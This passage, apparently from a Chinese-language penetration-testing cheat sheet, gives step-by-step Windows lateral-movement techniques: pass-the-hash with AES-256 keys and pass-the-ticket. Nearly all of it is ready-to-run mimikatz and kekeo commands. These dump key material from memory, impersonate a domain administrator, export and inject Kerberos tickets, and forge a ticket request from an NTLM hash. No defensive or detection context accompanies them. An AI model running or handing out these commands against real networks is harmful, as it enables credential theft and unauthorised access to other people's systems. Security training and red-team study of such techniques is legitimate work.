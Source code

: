 ### [](#%E4%BD%BF%E7%94%A8-aes-256-%E5%AF%86%E9%92%A5%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 AES-256 密钥进行哈希传递

使用 mimikatz 抓取 AES-256 密钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::ekeys"<br>``` |

pth 攻击（目标机器必须安装 KB2871997）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /aes256:[aes256]"<br>``` |

## [](#%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)票据传递

### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 mimikatz 进行票据传递

#### [](#%E5%AF%BC%E5%87%BA%E7%A5%A8%E6%8D%AE)导出票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::tickets /exports"<br>``` |

#### [](#%E6%B3%A8%E5%85%A5%E7%A5%A8%E6%8D%AE)注入票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "kerberos::ptt" "C:\xxx.kirbi"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-kekeo-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 kekeo 进行票据传递

#### [](#%E7%94%9F%E6%88%90%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6)生成票据文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "tgt:ask /user:administrator /domain:pentest.hack /ntlm:[NTLM]"<br>``` |

#### [](#%E5%B0%86%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6%E5%AF%BC%E5%85%A5%E5%86%85%E5%AD%98)将票据文件导入内存

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "kerberos::ptt xxx.kirbi"<br>``` |
